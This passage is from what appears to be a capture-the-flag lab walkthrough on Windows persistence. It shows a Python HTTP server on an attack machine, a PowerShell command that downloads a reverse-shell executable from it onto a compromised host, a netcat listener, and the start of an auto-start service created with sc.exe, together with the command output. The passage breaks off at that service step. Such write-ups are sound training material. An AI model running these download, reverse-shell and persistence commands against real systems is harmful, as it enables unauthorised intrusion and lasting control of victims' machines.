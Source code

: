 ```Bash
```
3. `sudo python3 -m http.server` from our Linux attack machine to start and transform our attack machine into a simple HTTP server that we'll connect to from our compromised machine to downlaod our payload
```bash
root@ip-10-10-44-151:~# sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.254.131 - - [06/Jul/2023 01:44:11] "GET /rev-svc.exe HTTP/1.1" 200 -
```
4. `PowerShell` from the compromised Windows machine to open up PowerShell
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
5. `PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME1>.exe','<PAYLOAD NAME2>.exe')"` from our compromised Windows machine to create a new instance of the **System.Net.Web** class, which allowed us to call its **DownloadFile** method, which then allowed us to download our payload from our attack machine which we temporarily turned into an HTTP server by specifying its location and the name we want to give that payload when we download it onto the compromised machine
```PowerShell
PS C:\Users\Administrator> PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.44.151:8000/rev-svc.exe','Payload.exe')"
``` 
6. `dir` from our compromised Windows machine to display the files and directories that are in our current working directory onto our terminal to verify that we successfully downlaoded our payload from our attack machine, which we did
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/6/2023  12:44 AM          48640 Payload.exe
```
7. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for any inbound connection
```Bash
root@ip-10-10-44-151:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
8. `sc.exe create <SERVICE NAME> binPath= "<PAYLOAD NAME2 PATH>" start= auto` from our compromised Windows machine to create a new service that'll be automatically started when our compromised machine boots up, which will then execute the program located in its binary path, which contains our payload
```PowerShell
```